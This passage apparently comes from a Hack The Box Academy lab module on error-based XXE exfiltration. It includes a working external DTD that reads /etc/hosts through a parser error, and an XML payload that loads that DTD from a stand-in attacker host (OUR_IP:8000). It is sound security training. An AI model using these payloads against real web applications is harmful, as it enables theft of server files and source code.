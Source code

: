 If the web application displays runtime errors (e.g., PHP errors) and does not have proper exception handling for the XML input, then we can use this flaw to read the output of the XXE exploit. If the web application neither writes XML output nor displays any errors, we would face a completely blind situation, which we will discuss in the next section.

Let's consider the exercise we have in `/error` at the end of this section, in which none of the XML input entities is displayed on the screen. Because of this, we have no entity that we can control to write the file output. First, let's try to send malformed XML data, and see if the web application displays any errors. To do so, we can delete any of the closing tags, change one of them, so it does not close (e.g. `<roo>` instead of `<root>`), or just reference a non-existing entity, as follows: ![cause\_error](https://academy.hackthebox.com/storage/modules/134/web\_attacks\_xxe\_cause\_error.jpg)

We see that we did indeed cause the web application to display an error, and it also revealed the web server directory, which we can use to read the source code of other files. Now, we can exploit this flaw to exfiltrate file content. To do so, we will use a similar technique to what we used earlier. First, we will host a DTD file that contains the following payload:

Code: xml

```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

The above payload defines the `file` parameter entity and then joins it with an entity that does not exist. In our previous exercise, we were joining three strings. In this case, `%nonExistingEntity;` does not exist, so the web application would throw an error saying that this entity does not exist, along with our joined `%file;` as part of the error. There are many other variables that can cause an error, like a bad URI or having bad characters in the referenced file.

Now, we can call our external DTD script, and then reference the `error` entity, as follows:

Code: xml

```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```

Once we host our DTD script as we did earlier and send the above payload as our XML data (no need to include any other XML data), we will get the content of the `/etc/hosts` file as follows: ![exfil\_error](https://academy.hackthebox.com/storage/modules/134/web\_attacks\_xxe\_exfil\_error\_2.jpg)

This method may also be used to read the source code of files. All we have to do is change the file name in our DTD script to point to the file we want to read (e.g. `"file:///var/www/html/submitDetails.php"`). However, `this method is not as reliable as the previous method for reading source files`, as it may have length limitations, and certain special characters may still break it.

\


## Blind Data Exfiltration
